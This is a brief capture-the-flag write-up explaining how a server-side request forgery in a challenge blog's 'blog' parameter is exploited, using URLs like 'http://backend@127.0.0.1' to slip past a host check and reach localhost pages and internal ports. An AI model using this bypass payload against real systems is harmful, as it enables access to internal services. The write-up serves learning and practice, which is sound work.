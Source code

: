 # Nops-CTF

blog - challenge

we get `/blog.php` while fuzzing.

`https://nopsctf-fc40017662fd-blog-3.chals.io/blog.php`

try ssrf :

[`https://nopsctf-fc40017662fd-blog-3.chals.io/blog.php?blog=asd`](https://nopsctf-fc40017662fd-blog-3.chals.io/blog.php?blog=asd) = `{"error":"Invalid ID"}`

[`https://nopsctf-fc40017662fd-blog-3.chals.io/blog.php?blog=http://127.0.0.1`](https://nopsctf-fc40017662fd-blog-3.chals.io/blog.php?blog=http://127.0.0.1:8080) = output : 

```
Warning: Request should only be sent to **backend** host.
```

so we have to use `backend` as the host.

payload :

```bash
blog=http://backend@127.0.0.1
```

payload explain : 

AS it going to open [`http://backend`](http://backend) but by using `@IP` it going to redirect on that ip instant of `http://backend` . so we can redirect it to localhost. and try to read file.

so by using `127.0.0.1/index.php` we can read file.

`@127.0.0.1/server-status` : to see server status page (default)

so we can try to see other port are open or not byf fuzzing.and we get flag.

payload:

```bash
https://nopsctf/blog.php?blog=http://backend.com@127.0.0.1:8080
```
